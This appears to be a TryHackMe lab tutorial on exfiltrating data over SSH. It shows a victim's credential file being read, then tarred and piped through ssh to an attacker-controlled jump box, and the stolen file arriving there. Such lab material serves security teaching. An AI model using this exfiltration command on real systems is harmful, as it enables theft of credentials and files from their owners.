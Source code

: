 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/aa723bb0e2c39dfc936b135c4912d1cf.png)

To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client. Let's assume that we don't have the SCP command available to transfer data over SSH. Thus, we will focus more on the SSH client in this task.

As we mentioned earlier, an attacker needs to control a server, which in this case has an SSH server enabled, to receive the exfiltrated data. Thus, we will be using the AttackBox as our SSH server in this scenario. You can also use the JumpBox since it has an SSH server enabled.

Let's assume that we have gained access to sensitive data that must be transmitted securely.  Let's connect to the victim1 or victim2 machine.

```
The data that needs to be transferred

           
			
thm@victim1:~$ cat task5/creds.txt
admin:password
Admin:123456
root:toor

	    
```

Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.Let's use the same technique we discussed in the "exfiltration using a TCP socket" task, where we will be using the tar command to archive the data and then transfer it.

```
Exfiltration data from the victim1 machine

           
			
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

	    
```

Let's break down the previous command and explain it:

    We used the tar command the same as the previous task to create an archive file of the task5 directory.
    Then we passed the archived file over the ssh. SSH clients provide a way to execute a single command without having a full session.
    We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the passed file.

If we check the attacker machine, we can see that we have successfully transmitted the file.

```
Checking the received data

           
			
thm@jump-box$ cd /tmp/task5/
thm@jump-box:/tmp/task5$ cat creds.txt
admin:password
Admin:123456
root:toor
	    
```
